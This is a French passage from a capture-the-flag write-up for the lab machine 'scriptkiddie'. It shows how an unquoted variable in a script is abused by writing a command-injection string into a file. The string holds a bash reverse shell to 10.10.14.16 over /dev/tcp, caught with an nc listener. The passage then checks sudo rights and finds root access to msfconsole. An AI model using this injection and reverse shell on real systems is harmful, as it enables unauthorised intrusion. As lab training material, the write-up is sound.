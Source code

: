 Ce script affiche le contenu du fichier, `hackers` que nous avons trouvé plus tôt, et coupe les 3 premiers espaces avec la commande `cut`.

En regardant de plus près se script, nous pouvons voir que la variable `log` ne possède pas de quote lors du `cat`, cela signifie que nous pouvons exécuter du code à ce moment.

Nous pouvons alors rentrer, un reverse shell dans le fichier `hackers` qui sera exécuter par le script.

Nous allons lancer une écoute sur le port `5555` (étant donné que nous déjà sur un reverse shell en 4444 nous ne pouvons pas réutiliser ce port).

> nc -lnvp 5555



Implémentons le reverse shell avec ce que l'on a pu voir au-dessus.

> echo "  ; /bin/bash -c 'exec bash -i &>/dev/tcp/10.10.14.16/5555 <&1' #" > hackers

1. Le "echo > hackers" va mettre notre code dans le fichier et écraser le texte déjà présent.

2. "  ; " nous mettons 2 espaces suivant d'un `;` puis d'un nouvel espace afin d'échapper l'instruction `cut -d' ' -f3-`.

3. "/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.14.16/5555" nous exécutons un reverse shell en bash sur l'ip `10.10.14.16` et son port `5555`

4. "#" nous finissons par un `#` pour commenter le reste du code. 

   

```
Connection from 10.10.10.226:36008
```

```
pwn@scriptkiddie:~$ whoami
whoami
```

Nous voilà maintenant sur l'utilisateur `pwn`.




<p align= "left">
 <h6 align= "left"><U>2.Root</U></h6>
</p>
Avec la commande `sudo -l` nous pouvons voir que l'utilisateur `pwn` peut exécuter metasploit en tant que root.

> sudo -l

```
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
